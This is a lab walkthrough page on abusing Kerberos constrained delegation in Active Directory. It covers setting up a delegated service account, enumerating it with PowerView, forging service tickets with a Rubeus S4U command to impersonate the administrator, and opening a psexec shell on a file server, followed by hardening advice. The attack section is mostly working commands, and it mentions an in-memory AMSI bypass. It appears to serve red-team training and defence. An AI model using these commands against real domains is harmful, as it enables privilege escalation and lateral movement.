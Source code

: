 ```yaml
---
description: >-
  If a user or computer has constrained delegation configured, it's possible to
  impersonate any domain user and authenticate to a service that the user
  account is trusted to delegate to. It is also poss
---
```


# Constrained Delegation

## Configuring

### Prerequisite&#x20;

User `sa_transfer` creation from:

{% content-ref url="../acl-abuses/forcechangepassword.md" %}
[forcechangepassword.md](../acl-abuses/forcechangepassword.md)
{% endcontent-ref %}

### Configuring

1. Login on `DC02` with the username `Administrator` and password `Welcome01!`.
2. Open PowerShell and execute the following command to set a SPN for the user sa\_transfer:

```
setspn -A HTTP/FILE01.amsterdam.bank.local amsterdam\sa_transfer
```

![](<../../../.gitbook/assets/image (55).png>)

3\. Open the "Active Directory Users and Computers" administration tool on `DC02`.

![](<../../../.gitbook/assets/image (37).png>)

4\. Open the "Users" directory and right click the `sa_transfer` user and select "Properties".

5\. Open the "Properties" tab and select "Trust this user for delegation to specified services only". Then click "Use any authentication protocol" and select "Add".

![](<../../../.gitbook/assets/image (60) (1).png>)

6\. Select "Users or Computers" and type `FILE01` and click "Check Names" and "OK".

![](<../../../.gitbook/assets/image (11).png>)

7\. Select the "cifs" service and click on "OK". Click on "Apply" and "OK" and the delegation is configured.

![](<../../../.gitbook/assets/image (58) (1).png>)



## Attacking

### How it works

If a user or computer has constrained delegation configured, it's possible to impersonate any domain user and authenticate to a service that the user account is trusted to delegate to. It is also possible to create tickets for other services since they aren't checked.

### Tools

* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [Rubeus](https://github.com/GhostPack/Rubeus)
* [Psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)

### Executing the attack

1. Login to `WS01` as Richard with the password `Sample123`.
2. Start PowerShell and download and execute an amsi and PowerView in memory:

![](<../../../.gitbook/assets/image (16) (1) (1).png>)

3\. Execute the following query to enumerate all users with constrained delegation and select the samaccountname and msds-allowedtodelegateto attributes.

```
Get-DomainUser -TrustedToAuth | select samaccountname, msds-allowedtodelegateto
```

![](<../../../.gitbook/assets/image (73) (1).png>)

4\. The user `sa_transfer` can delegate access to `cifs\FILE01.amsterdam.bank.local`. To abuse this we need access to the user, luckily we could reset the password earlier.

{% content-ref url="../acl-abuses/forcechangepassword.md" %}
[forcechangepassword.md](../acl-abuses/forcechangepassword.md)
{% endcontent-ref %}

5\. First we need to calculate the hash of the user, for this we can use Rubeus, using the following command:

```
.\Rubeus.exe hash /password:'2i^t#fFpL' /user:sa_transfer /domain:amsterdam.bank.local
```

![](<../../../.gitbook/assets/image (76) (1) (1) (1).png>)

6\. The next step is too request a TGT and then request two service tickets for CIFS, HOST and RPCSS. So we can interact with the file system and psremoting for the fileserver. The easiest way to do this is using Rubeus.

```
.\Rubeus.exe s4u /user:sa_transfer /rc4:58A0D6C796769B84609E5F68C2213F96 /impersonateuser:administrator /domain:amsterdam.bank.local /msdsspn:cifs/FILE01.amsterdam.bank.local /altservice:CIFS,HOST,RPCSS /file01.amsterdam.bank.local /ptt
```

{% hint style="info" %}
* Possbible alt services:&#x20;
  * CIFS for directory browsing
  * HOST and RPCSS for WMI
  * HOST and HTTP for PowerShell Remoting/WINRM
  * LDAP for dcsync
* Another thing to keep in mind is that you can impersonate any user except those in groups "Protected Users" or accounts with the "This account is sensitive and cannot be delegated" right.
{% endhint %}



![](<../../../.gitbook/assets/image (54) (1).png>)

7\. When we list our tickets now we can see that we have three service tickets:

![](<../../../.gitbook/assets/image (48) (1).png>)

8\. Since we have a CIFS ticket we can list the `C` drive of the fileserver `FILE01`:

```
ls \\file01.amsterdam.bank.local\c$
```

![](<../../../.gitbook/assets/image (27).png>)

9\. We are unable to use the RPC and HOST tickets for pssession since the target server doesn't have it enabled. We can get a shell with the CIFS ticket by using psexec from sysinternals:

```
.\psexec64.exe \\file01.amsterdam.bank.local cmd.exe
```

![](<../../../.gitbook/assets/image (75) (1) (1).png>)

## Defending

### Recommendations

* Tightly secure and monitor the user of AD objects with delegation set.
  * Set strong passwords and rotate them periodically.
  * Limit logons to systems.
  * Harden the systems these accounts are used.
* Add the flag "this account is sensitive and cannot be delegated"
* Add all high privileged accounts to the protected users group.

{% content-ref url="../../../defence/hardening/protected-users-group.md" %}
[protected-users-group.md](../../../defence/hardening/protected-users-group.md)
{% endcontent-ref %}

### Detection



## References

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

{% embed url="https://github.com/GhostPack/Rubeus" %}

{% embed url="https://docs.microsoft.com/en-us/sysinternals/downloads/psexec" %}
